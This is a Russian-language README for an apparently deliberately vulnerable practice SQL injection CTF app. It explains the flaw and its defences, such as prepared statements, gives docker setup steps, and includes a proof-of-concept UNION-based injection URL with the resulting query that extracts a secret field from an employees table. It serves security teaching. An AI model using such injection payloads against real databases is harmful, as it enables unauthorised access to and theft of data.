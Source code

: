 # Practice SQLI CTF

## Краткое описание уязвимости
SQL Injection - уязвимость, которая позволяет злоумышленнику создавать запросы к SQL базам данных, не предусмотренные разработчиком.
Возникает она из-за неправильной обработки данных, которые впоследствие присутствуют в запросе к базе данных.
Данный сервис позволяет получить все штрафы пользователя по имени человека.

## Способы защиты от уязвимости
- Корректная обработка и экранирование входных данных.
- Настройка прав доступа к базе данных.
- Использование `prepared statements` и параметризированных запросов.

## Запуск приложения
Для запуска приложения нужно:
1. Склонировать репозиторий:
```bash
git clone https://github.com/MinaevMax/Practice_SQLI.git
cd Practice_SQLI
```
2. Запуск приложения через docker-compose:
```bash
docker-compose up --build
```
3. Приложение будет запущено по адресу: [http://localhost:8080](http://localhost:8080)

## Описание уязвимости конкретно в данном приложении
Сервис позволяет получить флаг, находящийся в поле secret у сотрудника(таблица `employees`), выписавшего наибольшую сумму штрафов.
Есть хэндлер, который возвращает из бд только поля id штрафа и имя на кого он выписан.
Для того, чтобы получить флаг, нужно передать вместо имени запрос, который фильтрует и возвращает поле secret у нужной записи.

## POC-эксплоит для получения флага
Для получения флага, необходимо получить запись из таблицы, недоступной для получения из хэндлера.
Сделать это можно воспользовавшись SQL командой `UNION`, которую нужно использовать в передаваемом тексте.
Например, подойдет следующий запрос:
```
http://localhost:8080/bills/check?name=' UNION SELECT 0, secret, 0 FROM billdb.employees WHERE id = (SELECT employee_id FROM billdb.bills GROUP BY employee_id ORDER BY SUM(value) DESC LIMIT 1) AND ''='
```
Для него, запрос к БД будет выглядеть следующим образом: 
```
SELECT id, name, value FROM billdb.bills WHERE name='' UNION SELECT 0, secret, 0 FROM billdb.employees WHERE id = (SELECT employee_id FROM billdb.bills GROUP BY employee_id ORDER BY SUM(value) DESC LIMIT 1) AND ''=''
```
В результате запрос вернет поле secret для сотрудника с наибольшей суммой штрафов, что и есть флаг.
Хэндлер возвращает 3 параметра: id штрафа, name человека, value штрафа, обернутые в текстовую оболочку. 
При получении флага `id` и `value` будут 0, а поле `name` будет отображать флаг(Это следует из запроса в примере).

Выполнение запросов лучше и удобнее всего проводить через программу Postman.